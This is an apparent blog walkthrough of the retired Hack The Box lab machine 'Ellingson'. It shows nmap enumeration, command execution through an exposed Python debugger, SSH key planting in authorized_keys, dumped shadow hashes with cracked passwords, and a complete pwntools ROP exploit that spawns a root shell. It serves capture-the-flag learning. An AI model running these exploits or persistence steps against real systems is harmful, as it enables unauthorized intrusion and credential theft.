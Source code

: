```yaml
---
layout: post
title:  "HTB Ellingson Walkthrough"
author: nanobyte
date:   2019-10-22
description: Hack The Box writeup for Ellingson, Retired Hard Box
tags: HTB_Walkthrough ROP SSH Python
---
```


Ellingson was an awesome box to root! Not only did I get to sharpen some of my ROP skills, but the throwback to one of my favorite movies (Hackers) was a treat from beginning to root. For those of you who have not seen the 1995 film Hackers, go watch it! This box was also awesome because getting the initial foothold was not the average run this exploit, or find these credentials. I really had to think out of the box (get it?) since I am still so new to hacking. So, lets get started!

First off, I ran nmap against the box:

{% highlight bash linenos %}
nmap -sV -sC -p- -oA ellingson.htb 10.10.10.139
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-22 10:15 CDT
Nmap scan report for 10.10.10.139
Host is up (0.066s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port ggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.92 seconds
{% endhighlight %}

Once I was able to identify what services were running, I hopped on over to the website and began to poke around while running gobuster. When I got to the /articles/ directory, I noticed the numbers incremented and so I manually "fuzzed". I did this by simply adding iterations of numbers after the /articles/ directory, until I got to 5. Once on http://10.10.10.139/articles/5 I was able to find python debugger shells.

{% highlight python linenos %}
File "/opt/corp-web/run.py", line 32, in show_articles
slug = articles[index-1]

>>> import getpass
>>> print(getpass.getuser())
hal
{% endhighlight %}

Nice! I found I have the ability to run os system commands. During initial enumeration, I found that there is Port 22 open. First, I tried to steal the SSH key, but I did not know the key passphrase so connection was refused. However, looking further, I can write to the authorized_keys file. So, I generated a new SSH RSA key, and placed my pub key in authorized_keys:

{% highlight python linenos %}
import os

os.system("echo '\nssh-rsa [your RSA key]' >> /home/hal/.ssh/authorized_keys")
{% endhighlight %}

And now I can login to SSH. Awesome, initial foothold gained!

Now that we have SSH, completing further enumeration I found I was user Hal, and needed to escelate to user. Enumerating the system, there is a backup folder in /var/. In there, I have read permissions to shadow.bak!? Bad admin!

{% highlight bash linenos %}
cat /var/backups/shadow.bak

root:*:17737:0:99999:7:::
daemon:*:17737:0:99999:7:::
bin:*:17737:0:99999:7:::
sys:*:17737:0:99999:7:::
sync:*:17737:0:99999:7:::
games:*:17737:0:99999:7:::
man:*:17737:0:99999:7:::
lp:*:17737:0:99999:7:::
mail:*:17737:0:99999:7:::
news:*:17737:0:99999:7:::
uucp:*:17737:0:99999:7:::
proxy:*:17737:0:99999:7:::
www-data:*:17737:0:99999:7:::
backup:*:17737:0:99999:7:::
list:*:17737:0:99999:7:::
irc:*:17737:0:99999:7:::
gnats:*:17737:0:99999:7:::
nobody:*:17737:0:99999:7:::
systemd-network:*:17737:0:99999:7:::
systemd-resolve:*:17737:0:99999:7:::
syslog:*:17737:0:99999:7:::
messagebus:*:17737:0:99999:7:::
_apt:*:17737:0:99999:7:::
lxd:*:17737:0:99999:7:::
uuidd:*:17737:0:99999:7:::
dnsmasq:*:17737:0:99999:7:::
landscape:*:17737:0:99999:7:::
pollinate:*:17737:0:99999:7:::
sshd:*:17737:0:99999:7:::
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
{% endhighlight %}

Let’s crack those hashes!

{% highlight bash linenos %}
hashcat64.exe -m 1800 -a 0 ellingsin.txt rockyou.txt --force

theplague:password123
margo:iamgod$08
{% endhighlight %}

Now that it’s cracked, let’s login as user!

{% highlight bash linenos %}
su margo

cat /home/margo/user.txt
d0ff9e3f9da8--------------------
{% endhighlight %}

User owned. From here, I ran the linenum.sh script, and found a binary running that should NOT be there:

{% highlight bash linenos %}
find / -perm -u=s -type f 2>/dev/null

/usr/bin/garbage
{% endhighlight %}

I tried several methods to get the binary to my box. All ways failed, so assume that it's blocked on the box. I found openssl base64 as an alternative method.

{% highlight bash linenos %}
openssl base64 < garbage

//Copy output of encoded garbage

//On your machine, create garbage.input

openssl base64 -d < garbage.input > garbage.output
{% endhighlight %}

Garbage.output is now the binary on my system. For the ROP, I had to watch Bitterman's video several times, and speak wth the HTB community on Discord (if you are NOT on their channel, I highly recommend it. There is a community of hackers who really do want to help you along with nudges when you are stuck, which is especially nice for a n00b like me). After watching the second half of the video, and chatting with a few fellow hackers, I was able to come up with the following:

{% highlight python linenos %}
from pwn import *

context(terminal=['tmux', 'new-window'])
session = ssh('margo', '10.10.10.139', password='iamgod$08')

p = session.process('/usr/bin/garbage')
#p = gdb.debug('./garbage', 'b main')

context(os='linux', arch='amd64')
#context.log_level = 'DEBUG'

# make sure these are local and freshly grabbed from remote with correct permissions
garbage = ELF('garbage')
rop = ROP(garbage)
libc = ELF('libc.so.6')
junk = "A" * 136

# build rop chain
rop.search(regs=['rdi'], order='regs')
rop.puts(garbage.got['puts'])
rop.call(garbage.symbols['main'])
print "ROP Chain 1:\n{}".format(rop.dump())

payload = junk + str(rop)
p.recvuntil('password:')
p.sendline(payload)
p.recvuntil('denied.')

leaked_puts_address_in_libc = p.recv()[:8].strip().ljust(8, "\x00")
print("Leaked puts@GLIBCL {}".format(str(leaked_puts_address_in_libc)))

# unpack
leaked_puts_address_in_libc = u64(leaked_puts_address_in_libc)

libc.address = leaked_puts_address_in_libc - libc.symbols['puts']
rop2 = ROP(libc)
rop2.setuid(0x0)
rop2.system(next(libc.search('/bin/sh\x00')))
print "ROP Chain 2:\n{}".format(rop2.dump())

payload = junk + str(rop2)
p.sendline(payload)
p.recvuntil('denied.')

p.clean()
p.interactive()
{% endhighlight %}

Now, once I ran the binary, I was delivered root!

{% highlight bash linenos %}
cat /root/root.txt
1cc73a448021--------------------
{% endhighlight %}
